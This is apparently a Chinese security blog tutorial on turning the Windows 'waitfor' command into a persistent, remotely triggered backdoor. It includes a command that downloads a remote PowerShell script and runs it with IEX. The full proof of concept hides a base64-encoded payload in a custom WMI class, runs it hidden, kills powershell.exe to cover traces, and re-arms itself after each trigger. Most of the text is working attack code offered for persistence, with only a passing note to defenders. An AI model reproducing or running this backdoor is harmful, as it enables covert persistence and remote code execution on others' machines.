




## waitfor

关于`waitfor`手册中是这么解释的：

```
在系统上发送或等待信号。waitfor可用于跨网络同步计算机。 
```

`waitfor`的语法

```
waitfor [/s <Computer> [/u [<Domain>\]<User> [/p [<Password>]]]] /si <SignalName>
waitfor [/t <Timeout>] <SignalName> 
```

参数解释：

```
/s <Computer>  指定远程计算机的名称或IP地址，默认为本地计算机
/u [<Domain>]<user>    使用指定用户帐户的凭据运行脚本。默认是使用当前用户的凭据。
/p <Password>  指定/u参数中指定的用户帐户的密码。
/si            发送指定激活信号。
/t             指定等待信号的秒数。默认为无限期等待。 
<SignalName>    指定等待或发送的信号，不区分大小写，长度不能超过225个字符 
```

关于`waitfor`更多的信息可以看一下微软提供的手册：[链接](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/waitfor)

我们来测试一下看看

```
waitfor test && calc 表示接收信号成功后执行计算器 `waitfor /s 192.168.163.143 /u qiyou /p qiyou /si test` 
```

结果如下



但是这样只能执行一次，这对我们后门持久化很不利，所以我们得想办法让它持久化。

这里就要借用一下三好师傅的`powershell`脚本

#### 支持系统：

*   Windows Server 2003
*   Windows Vista
*   Windows XP
*   Windows Server 2008
*   Windows 7
*   Windows Server 2003 with SP2
*   Windows Server 2003 R2
*   Windows Server 2008 R2
*   Windows Server 2000
*   Windows Server 2012
*   Windows Server 2003 with SP1
*   Windows 8
*   Windows 10
*   其他Server系统未测试，理论上支持

#### 利用思路

Daniel Bohannon‏ @danielhbohannon在twitter上分享了他的利用思路：将waitfor接收信号后的操作设置为从远程服务器下载powershell代码并执行

地址如下：

https://twitter.com/danielhbohannon/status/872258924078092288

细节如下图



此外，他还提到了一个有趣的技巧：如果将powershell代码设置为延期执行，那么接收信号后，后台将不存在进程waitfor.exe

我验证了这个结论，方法如下：

**开启等待模式：**

cmd：

```
waitfor test1 && && powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1') 
```

**发送信号：**

cmd：

```
waitfor /s 127.0.0.1 /si test1 
```

https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1的内容如下：

```
Start-Sleep -Seconds 10;
start-process calc.exe; 
```

当成功接收信号后，进程waitfor.exe退出

接着执行powershell脚本，等待10秒再启动calc.exe

这10秒内，只存在进程powershell.exe

也就是说，如果把等待时间设置更长，那么再这一段等待时间内不存在进程waitfor.exe，提醒防御者注意这个细节

### poc细节

如果作为一个后门，那么上面的利用方法还不够成熟

因为触发一次后，进程waitfor.exe将退出，导致该后门无法重复使用

需要再次开启一个等待模式，才能再次触发后门

当然，可以在每次后门触发后手动开启一个等待模式

但这不够智能，能否通过脚本实现自动开启等待模式，使其成为一个可持续触发的后门呢？

为此，我写了以下POC

#### 思路1：

在目标系统保存一个ps脚本1.ps1

1.ps1内容如下：

```
start-process calc.exe
cmd /c waitfor persist `&`& powershell -executionpolicy bypass -file c:\test\1.ps1 
```

**注：**

转义字符&在powershell中要用`&表示

**开启等待模式：**

cmd：

```
waitfor persist1 && powershell -executionpolicy bypass -file c:\test\1.ps1 
```

**发送信号：**

cmd：

```
waitfor /s 127.0.0.1 /si persist1 
```

#### 思路2：

不在目标系统保存文件

这里使用一个之前在《WMI backdoor》中介绍过的技巧，将payload保存在WMI类中，进行读取使用

存储payload：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe")
$StaticClass.Put() 
```

读取payload：

```
([WmiClass] 'Win32_Backdoor').Properties['Code'].Value 
```

以上操作如下图


执行payload：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

**注：**

通过Invoke-Expression执行命令也可以，使用iex是为了缩短长度

结合waitfor的参数格式，这里选择将代码编码为base64

对执行payload的代码进行base64编码，以下代码保存在code.txt：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

对其进行base64编码，代码如下：

```
$code = Get-Content -Path code.txt
$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
$encoded = [System.Convert]::ToBase64String($bytes)
$encoded 
```

获得base64加密代码如下：

```
JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA== 
```

以上操作如下图


测试base64加密代码：

```
powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA== 
```

成功执行代码，如下图


根据以上思路，POC如下：

后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& waitfor persist ```&```& powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() 
```

**注：**

存在两次转义字符

```
 ``用来表示` 
```

安装代码：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

激活命令：

```
waitfor /s 127.0.0.1 /si persist 
```

实际测试如下图



存在bug，导致powershell.exe无法正常退出，进程在后台残留

所以需要添加一段代码，用来结束进程powershell.exe

**注：**

根据逻辑关系，结束powershell.exe的代码要写在`powershell -nop -W Hidden -E ...`之前

### 最终，完整POC代码如下：

后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()| Out-Null
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& taskkill /f /im powershell.exe ```&```& waitfor persist ```&```& powershell -nop -W Hidden -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() | Out-Null `$exec=([WmiClass] ‘Win32_Backdoor’).Properties[‘Code’].Value;

iex $exec | Out-Null` 
```

激活命令：

```
waitfor /s 127.0.0.1 /si persist 
```

完整演示如下图



该方法的优点就是能主动激活，但是缺点也明显就是只能在同一网段才能接收和发送激活信号、服务器重启之后就不行了。